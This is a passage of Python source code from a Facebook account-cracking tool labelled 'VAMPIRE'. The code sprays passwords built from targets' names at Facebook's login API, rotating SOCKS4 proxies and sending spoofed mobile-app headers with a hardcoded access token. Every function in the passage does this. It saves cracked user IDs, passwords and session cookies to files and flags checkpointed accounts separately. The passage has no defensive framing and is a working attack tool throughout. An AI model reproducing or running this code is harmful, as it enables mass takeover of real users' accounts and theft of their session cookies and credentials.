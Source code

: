                 po = requests.post('https://graph.facebook.com/auth/login',data=data,headers=head,proxies=bro).text
                q = json.loads(po)
                if 'session_key' in q:
                     cookie = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                     print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M4.txt','a').write(sid+'|'+ps+'\n')
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M4-COOKIE.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                     oks.append(sid)
                     break
                elif 'www.facebook.com' in q:
                     print(f"\r\r {green}[{red}VAMPIRE-CP{green}]{green} {sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-CP.txt','a').write(sid+'|'+ps+'\n')
                     cps.append(sid)
                else:continue
            loop+=1
        except Exception as e:time.sleep(30)
#---------FILE M5
    def __MTDFIVE__(sid, name, psw,tl):
        try:
            global oks,cps,loop,xvx
            abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
            sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                prox=random.choice(xvx)
                bro={"http":"socks4://"+prox}
                head = {'User-Agent': f'{F5}','Accept-Encoding':'gzip, deflate','Connection':'close','Content-Type':'application/x-www-form-urlencoded','Host':'graph.facebook.com','X-FB-Net-HNI':str(random.randint(2e4, 4e4)),'X-FB-SIM-HNI':str(random.randint(2e4, 4e4)),'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32','X-FB-Connection-Type':'WIFI','X-Tigon-Is-Retry':'False','x-fb-session-id':'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32','x-fb-device-group':'5120','X-FB-Friendly-Name':'ViewerReactionsMutation','X-FB-Request-Analytics-Tags':'graphservice','X-FB-HTTP-Engine':'Liger','X-FB-Client-IP':'True','X-FB-Server-Cluster':'True','x-fb-connection-token':'62f8ce9f74b12f84c123cc23437a4a32'}
                data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':sid,'password':ps,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale':'es_ES','client_country_code':'ES','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
                po = requests.post('https://graph.facebook.com/auth/login',data=data,headers=head,proxies=bro).text
                q = json.loads(po)
                if 'session_key' in q:
                     cookie = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                     print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M5.txt','a').write(sid+'|'+ps+'\n')
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-M5-COOKIE.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                     oks.append(sid)
                     break
                elif 'www.facebook.com' in q:
                     print(f"\r\r {green}[{red}VAMPIRE-CP{green}]{green} {sid} {red}| {green}{ps} ")
                     open('/sdcard/VAMPIRE/VAMPIRE-FILE-CP.txt','a').write(sid+'|'+ps+'\n')
                     cps.append(sid)
                else:continue